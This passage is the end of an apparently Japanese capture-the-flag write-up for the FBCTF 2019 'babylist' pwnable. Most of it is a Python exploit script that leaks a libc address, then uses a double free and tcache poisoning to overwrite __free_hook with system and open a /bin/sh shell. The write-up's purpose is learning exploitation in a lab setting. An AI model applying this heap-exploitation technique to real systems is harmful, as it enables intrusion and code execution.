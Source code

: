 ```python
for i in range(3, 9):
    remove(i)
remove(2)

# libc leak
addr_main_arena = (view(0, 1)[2] << 32) | view(0, 0)[2]
libc_base = addr_main_arena - main_arena
logger.info("libc base = " + hex(libc_base))

# double free
create("1") # 1
for i in range(8):
    add(1, 0xcafe)
dup(1, "PON") # 2
for i in range(8):
    add(1, i + 4)
    add(2, i + 4)

# TCache Poisoning
target = libc_base + libc.symbol('__free_hook') - 8
create("evil") # 3
add(3, target & 0xffffffff)
add(3, target >> 32)
for i in range(3):
    add(3, 0xdead)

#addr_one_gadget = libc_base + one_gadget
addr_system = libc_base + libc.symbol("system")
create("dummy") # 4
for i in range(5):
    add(4, 0xbeef)
create("free hook") # 5
add(5, u32("/bin"))
add(5, u32("/sh\x00"))
add(5, addr_system & 0xffffffff)
add(5, addr_system >> 32)
add(5, 0)

sock.interactive()
```

# 感想
これは素で解けるようになりたいなぁ。

# 参考文献
[1] [https://github.com/pr0cf5/CTF-writeups/tree/master/2019/fbctf/babylist](https://github.com/pr0cf5/CTF-writeups/tree/master/2019/fbctf/babylist)
[2] [http://eiki.hatenablog.jp/entry/20120223/1329993062](http://eiki.hatenablog.jp/entry/20120223/1329993062)
[3] [https://github.com/fbsamples/fbctf-2019-challenges/tree/master/pwnables/babylist](https://github.com/fbsamples/fbctf-2019-challenges/tree/master/pwnables/babylist)